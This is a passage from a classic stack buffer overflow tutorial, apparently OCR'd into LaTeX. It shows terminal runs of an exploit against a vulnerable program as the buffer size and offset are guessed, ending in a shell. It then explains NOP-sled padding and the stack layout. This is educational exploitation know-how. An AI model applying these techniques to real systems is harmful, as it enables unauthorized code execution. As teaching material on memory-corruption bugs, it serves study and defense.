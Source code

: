 \documentclass[10pt]{article}
\begin{document}
{Now we can try to guess what the buffer and offset should be:

\begin{verbatim}
[aleph1]$ ./exploit2 500
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
[aleph1]$ exit

[aleph1]$ ./exploit2 600
Using address: 0xbffffdb4

[aleph1]$ ./vulnerable $EGG
Illegal instruction

[aleph1]$ exit

[aleph1]$ ./exploit2 600 100
Using address: 0xbffffd4c

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit

[aleph1]$ ./exploit2 600 200
Using address: 0xbffffce8

[aleph1]$ ./vulnerable $EGG
Segmentation fault

[aleph1]$ exit
.
.
.

[aleph1]$ ./exploit2 600 1564
Using address: 0xbffff794

[aleph1]$ ./vulnerable $EGG
$
\end{verbatim}

As we can see this is not an efficient process. Trying to guess the offset even while knowing where the 
beginning of the stack lives is nearly impossible. We would need at best a hundred tries, and at worst a couple 
of thousand. The problem is we need to guess *exactly* where the address of our code will start. If we are off 
by one byte more or less we will just get a segmentation violation or a invalid instruction. One way to increase 
our chances is to pad the front of our overflow buffer with NOP instructions. Almost all processors have a NOP 
instruction that performs a null operation. It is usually used to delay execution for purposes of timing. We will 
take advantage of it and fill half of our overflow buffer with them. We will place our shellcode at the center, 
and then follow it with the return addresses. If we are lucky and the return address points anywhere in the string 
of NOPs, they will just get executed until they reach our code. In the Intel architecture the NOP instruction is 
one byte long and it translates to 0x90 in machine code. Assuming the stack starts at address 0xFF, that S stands 
for shell code,  and that N stands for a NOP instruction the new stack would look like this: 

{\footnotesize
\begin{verbatim}
bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF  top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF  memory
           buffer                sfp   ret   a     b     c
<------   [NNNNNNNNNNNSSSSSSSSS][0xDE][0xDE][0xDE][0xDE][0xDE]
                 ^                     |
                 |_____________________|
top of                                                         bottom of
stack                                                          stack
\end{verbatim}
}


}
\end{document}

